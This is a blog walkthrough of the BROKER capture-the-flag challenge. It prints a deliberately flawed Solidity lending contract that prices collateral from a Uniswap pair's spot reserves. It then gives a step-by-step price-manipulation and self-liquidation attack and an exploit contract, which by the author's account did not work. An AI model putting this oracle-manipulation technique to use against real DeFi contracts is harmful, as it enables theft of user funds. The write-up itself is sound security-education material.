

Introduction
In my previous post, I gave a short summary of the BABYCRYPTO challenge from Paradigm's recent Capture the Flag competition. This time around, I'll be walking through the BROKER challenge, which @lightclients and I solved together. If you'd like more details on the competition or the format of the challenges, go and give my previous post a read first.
Challenges
BROKER
After BABYCRYPTO, I joined @lightclients on the BROKER challenge:

From the description, we initially assumed this challenge would have something to do with either a logic error in a contract, or some sort of market manipulation. Here's what was in the archive:
.
└── broker
└── public
├── contracts
│ ├── Broker.sol
│ └── Setup.sol
├── deploy
│ ├── chal.py
│ ├── compiled.bin
│ └── requirements.txt
└── Dockerfile
This format, which differed from BABYCRYPTO, was the same for all of the other challenges: chal.py did some magic to spin up a test chain (either ganache or hardhat) and then would check Setup.sol before releasing the flag.
Win Condition
Let's take a look at the win condition for BROKER to narrow down what we're looking for:
function isSolved() public view returns (bool) {
return weth.balanceOf(address(broker)) < 5 ether;
}
In other words, we're looking to reduce the Wrapped ETH (aka. weth, an ERC-20 representing ETH) balance of some address broker to less than five ether.
Environment
The Setup.sol contract gives us quite a bit of information about the chain and the contracts we'll have at our disposal. Starting with the first two constants in Setup:
WETH9 public constant weth = WETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
IUniswapV2Factory public constant factory = IUniswapV2Factory(0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f);
What immediately sticks out is that we have an IUniswapV2Factory deployed at 0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f. That's the same address as Uniswap on mainnet, implying we're running on a fork of mainnet! That gives us a ton of tools like flashloans, the rest of Uniswap, and pretty much anything else you can think of. Great. The weth address also matches the mainnet token, so we have twice the confirmation1.
That's not all Setup.sol has to offer. We've got a mysterious Token contract, with an airdrop function:
function airdrop() public {
require(!dropped[msg.sender], "err: only once");
dropped[msg.sender] = true;
balanceOf[msg.sender] += AMT;
totalSupply += AMT;
}
So we can get our dirty degen hands on some tokens! What does the token have to do with Uniswap? Well, the setup creates a Uniswap trading pair:
pair = IUniswapV2Pair(factory.createPair(address(weth), address(token)));
Then it adds an initial liquidity pool between WETH and our magical token:
// 1:25
weth.transfer(address(pair), 25 ether);
token.transfer(address(pair), 500_000 * DECIMALS);
pair.mint(address(this));
So, to summarize:
- We're on a fork of mainnet, and have access to all the wonderful finance tools therein.
- We have a magical token (MagicToken from now on.)
- We can get a fat stack of MagicToken, but only once.
- We have a Uniswap pair that can trade WETH for MagicToken.
Aside: What is Uniswap?
I'm not going to pretend to be an expert on Uniswap. There are much better places to learn about its many intricate details. Here's what I understand about Uniswap and what ended up being relevant to this challenge:
- Uniswap is a decentralized exchange where users can swap between pairs of tokens.
- Each trading pair is represented by an on-chain contract with the
IUniswapV2Pairinterface. - The pair contract maintains a balance of each token.
- The exchange rate between tokens in a pair is determined by the ratio of the contract's balance of each token (something like
token0.balanceOf(pair) / token1.balanceOf(pair).) - Finally, the most important: swapping one token for the other changes the ratio, and therefore changes the exchange rate.
Target
Here is the Broker contract from Broker.sol:
// a simple overcollateralized loan bank which accepts WETH as collateral and a
// token for borrowing. 0% APRs
contract Broker {
IUniswapV2Pair public pair;
WETH9 public constant weth = WETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
ERC20Like public token;
mapping(address => uint256) public deposited;
mapping(address => uint256) public debt;
constructor (IUniswapV2Pair _pair, ERC20Like _token) {
pair = _pair;
token = _token;
}
function rate() public view returns (uint256) {
(uint112 _reserve0, uint112 _reserve1,) = pair.getReserves();
uint256 _rate = uint256(_reserve0 / _reserve1);
return _rate;
}
function safeDebt(address user) public view returns (uint256) {
return deposited[user] * rate() * 2 / 3;
}
// borrow some tokens
function borrow(uint256 amount) public {
debt[msg.sender] += amount;
require(safeDebt(msg.sender) >= debt[msg.sender], "err: undercollateralized");
token.transfer(msg.sender, amount);
}
// repay your loan
function repay(uint256 amount) public {
debt[msg.sender] -= amount;
token.transferFrom(msg.sender, address(this), amount);
}
// repay a user's loan and get back their collateral. no discounts.
function liquidate(address user, uint256 amount) public returns (uint256) {
require(safeDebt(user) <= debt[user], "err: overcollateralized");
debt[user] -= amount;
token.transferFrom(msg.sender, address(this), amount);
uint256 collateralValueRepaid = amount / rate();
weth.transfer(msg.sender, collateralValueRepaid);
return collateralValueRepaid;
}
// top up your collateral
function deposit(uint256 amount) public {
deposited[msg.sender] += amount;
weth.transferFrom(msg.sender, address(this), amount);
}
// remove collateral
function withdraw(uint256 amount) public {
deposited[msg.sender] -= amount;
require(safeDebt(msg.sender) >= debt[msg.sender], "err: undercollateralized");
weth.transfer(msg.sender, amount);
}
}
From the comment and code, we can figure out how this contract is supposed to work:
- You
depositsome amount of WETH into theBrokercontract, to use as collateral later on. - You
borrowsome amount of MagicToken, limited by how much collateral you've deposited (calculated insafeDebt.) - Any number of:
- You
repaysome/all of your debt, in MagicTokens. - You
withdrawcollateral, limited by how much you have borrowed (calculated bysafeDebtagain.) - Your
safeDebtvalue falls below your current debt, and someoneliquidates your position.
- You
The Attack
Inception
Armed with the information above, we can start sketching out our attack:
- We need to drop the
Broker's WETH balance below 5 ether. - The
Brokersends WETH in two places:withdrawandliquidate. withdrawis pretty simple, so isn't a likely target for exploit.liquidatecalls intosafeDebtandrate! This is a likely target.
Toolbox
What can we manipulate in liquidate? We have access to:
- Amount deposited (
deposit/withdraw), - Amount borrowed (
borrow/repay), and - Ratio (
rate) between WETH and MagicToken (by buying or selling on Uniswap).
Instructions
So here's our attack strategy:
- Increase
rate()as much as possible, by buying up, uh,token1and/or sellingtoken0? - Deposit some collateral.
- Borrow a bunch of MagicTokens.
- Crash
rate()by sellingtoken1and/or buyingtoken0. - Liquidate our own position, extracting WETH from the contract.
- Repeat!
Difficulties
There are a couple issues here that I didn't quite realize until later on. Which token is the numerator and which is the denominator in rate()? How do you even make a trade on Uniswap?
The Exploit (Attempt #1)
We (or rather, I) charged ahead and wrote an exploit contract. I don't mind taking all of the credit for this abomination because, spoiler alert, it didn't work.
Here are the most relevant bits:
contract Exploit {
IERC20 immutable token0;
IERC20 immutable token1;
IUniswapV2PairReal immutable pair;
Broker immutable broker;
Token immutable token;
WETH9 immutable weth;
// The Uniswap router contract exposes some higher level APIs for doing a swap.
// Instead of figuring out how to invoke the pair directly, I used the router.
IUniswapV2Router02 constant router = IUniswapV2Router02(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);
constructor(Setup setup) payable {
// Collect some useful addresses.
IUniswapV2PairReal _pair = IUniswapV2PairReal(address(setup.pair()));
Token _token = setup.token();
IERC20 _token0 = IERC20(_pair.token0());
IERC20 _token1 = IERC20(_pair.token1());
Broker _broker = setup.broker();
WETH9 _weth = setup.weth();
// Mint ourselves some WETH to use later on.
_weth.deposit{value: msg.value}();
// Get some of that sweet MagicToken airdropped.
_token.airdrop();
// Flail around approving every combination of token and operator!
_token0.approve(address(router), type(uint256).max);
_token0.approve(address(_broker), type(uint256).max);
_token1.approve(address(router), type(uint256).max);
_token1.approve(address(_broker), type(uint256).max);
// Store some constants for later.
weth = _weth;
token0 = _token0;
token1 = _token1;
pair = _pair;
broker = _broker;
token = _token;
}
function run() external {
// Figure out how much of token0 we have.
uint256 t0Balance = token0.balanceOf(address(this));
// Prepare the "route" we need to trade through to swap token0 for token1.
address[] memory path = new address[](2);
path[0] = address(token0);
path[1] = address(token1);
// Do the exchange!
// I only used half of our balance of token0 because we needed some left over for later.
router.swapExactTokensForTokens(t0Balance / 2, 1, path, address(this), type(uint256).max);
// Deposit collateral, again only using half in case we needed more.
uint256 wBalance = weth.balanceOf(address(this));
broker.deposit(wBalance / 2);
// Borrow as much MagicToken as we can!
uint256 borrowed = broker.safeDebt(address(this));
broker.borrow(borrowed);
// Get our balance of token1 to swap it back
uint256 t1Balance = token1.balanceOf(address(this));
// Invert the route
(path[0], path[1]) = (path[1], path[0]);
// Swap!
router.swapExactTokensForTokens(t1Balance - borrowed, 1, path, address(this), type(uint256).max);
// Liquidate ourselves.
broker.liquidate(address(this), borrowed);
}
}
The Exploit (Attempt #2)
Now, obviously, this didn't work. Why? I never bothered to find out. To debug the contract, we set up Remix so we could access all the relevant parts. We had buttons to swap. We had buttons to borrow. We had so many buttons we didn't know what to do with them all.
We manually went through the steps in the contract. First manipulating the pair to raise safeDebt, then we deposited and borrowed, swapped the tokens back, and then called liquidate. The contract sent us WETH. Its balance had dropped. We rejoiced, and repeated the process. I wish I could say we were methodical or principled in our approach, but honestly we just swapped progressively smaller amounts until we eventually dropped the broker below the goal.
So children, it turns out you don't need a fancy exploit, all you need is Remix, about a million buttons, and a dream.
Conclusion
That's another one down! My next post will be on the BABYREV challenge, which was about 1% reverse engineering and 99% perseverance.
Footnotes
As it turns out, most (and likely all) of the eth challenges were forked off of mainnet.